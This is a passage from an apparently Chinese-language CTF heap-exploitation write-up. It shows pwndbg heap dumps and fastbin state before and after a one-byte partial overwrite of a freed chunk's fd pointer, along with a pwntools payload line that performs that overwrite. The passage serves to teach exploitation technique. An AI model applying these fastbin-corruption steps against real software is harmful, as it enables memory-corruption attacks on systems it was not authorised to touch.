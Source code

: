 ```
pwndbg> x/20gx 0x55a03ca22000
0x55a03ca22000: 0x0000000000000000  0x0000000000000021 idx 0
0x55a03ca22010: 0x0000000000000000  0x0000000000000000
0x55a03ca22020: 0x0000000000000000  0x0000000000000021 idx 1
0x55a03ca22030: 0x000055a03ca22040  0x0000000000000000
0x55a03ca22040: 0x0000000000000000  0x0000000000000021 idx 2
0x55a03ca22050: 0x0000000000000000  0x0000000000000000
0x55a03ca22060: 0x0000000000000000  0x0000000000000021 idx 3
0x55a03ca22070: 0x0000000000000000  0x0000000000000000
0x55a03ca22080: 0x0000000000000000  0x0000000000000091 idx 4
0x55a03ca22090: 0x0000000000000000  0x0000000000000000
pwndbg> fastbins 
fastbins
0x20: 0x55a03ca22020 —▸ 0x55a03ca22040 ◂— 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
```

当我们编辑 idx0 后，确实已经将其指向idx4了。这里之所以可以成功是因为堆的始终是 4KB 对齐的，所以idx 4的起始地址的第一个字节必然是0x80。

```python
    # edit idx 0 chunk to particial overwrite idx1's fd to point to idx4
    payload = 0x10 * 'a' + p64(0) + p64(0x21) + p8(0x80)
    fill(0, len(payload), payload)
```

修改成功后如下

```c
pwndbg> x/20gx 0x55a03ca22000
0x55a03ca22000: 0x0000000000000000  0x0000000000000021
0x55a03ca22010: 0x6161616161616161  0x6161616161616161
0x55a03ca22020: 0x0000000000000000  0x0000000000000021
0x55a03ca22030: 0x000055a03ca22080  0x0000000000000000
0x55a03ca22040: 0x0000000000000000  0x0000000000000021
0x55a03ca22050: 0x0000000000000000  0x0000000000000000
0x55a03ca22060: 0x0000000000000000  0x0000000000000021
0x55a03ca22070: 0x0000000000000000  0x0000000000000000
0x55a03ca22080: 0x0000000000000000  0x0000000000000091
0x55a03ca22090: 0x0000000000000000  0x0000000000000000
pwndbg> fastbins 
fastbins
0x20: 0x55a03ca22020 —▸ 0x55a03ca22080 ◂— 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
```
